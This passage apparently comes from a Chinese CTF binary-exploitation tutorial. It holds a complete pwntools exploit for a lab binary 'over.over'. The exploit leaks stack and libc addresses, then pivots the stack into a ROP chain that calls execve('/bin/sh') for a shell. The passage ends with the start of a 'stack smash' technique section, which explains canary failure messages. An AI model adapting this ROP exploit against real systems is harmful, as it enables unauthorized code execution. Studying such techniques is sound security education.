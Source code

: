 ```python
from pwn import *
context.binary = "./over.over"

def DEBUG(cmd):
    raw_input("DEBUG: ")
    gdb.attach(io, cmd)

io = process("./over.over")
elf = ELF("./over.over")
libc = elf.libc

io.sendafter(">", 'a' * 80)
stack = u64(io.recvuntil("\x7f")[-6: ].ljust(8, '\0')) - 0x70
success("stack -> {:#x}".format(stack))


#  DEBUG("b *0x4006B9\nc")
io.sendafter(">", flat(['11111111', 0x400793, elf.got['puts'], elf.plt['puts'], 0x400676, (80 - 40) * '1', stack, 0x4006be]))
libc.address = u64(io.recvuntil("\x7f")[-6: ].ljust(8, '\0')) - libc.sym['puts']
success("libc.address -> {:#x}".format(libc.address))

pop_rdi_ret=0x400793
'''
$ ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 --only "pop|ret"
0x00000000000f5279 : pop rdx ; pop rsi ; ret
'''
pop_rdx_pop_rsi_ret=libc.address+0xf5279

payload=flat(['22222222', pop_rdi_ret, next(libc.search("/bin/sh")),pop_rdx_pop_rsi_ret,p64(0),p64(0), libc.sym['execve'], (80 - 7*8 ) * '2', stack - 0x30, 0x4006be])

io.sendafter(">", payload)

io.interactive()
```

## Stack smash

### 原理

在程序加了 canary 保护之后，当 canary 值变化后，程序会错误退出并提示错误信息，通常是说 xxx（程序名） 段错误。

 stack smash 技巧则就是利用打印这一信息的程序来得到我们想要的内容。这是因为在程序启动 canary 保护之后，如果发现 canary 被修改的话，程序就会执行 `__stack_chk_fail` 函数来打印 argv[0] 指针所指向的字符串，正常情况下，这个指针指向了程序名。其代码如下

```
void __attribute__ ((noreturn)) __stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}
void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
                    msg, __libc_argv[0] ?: "<unknown>");
}
```
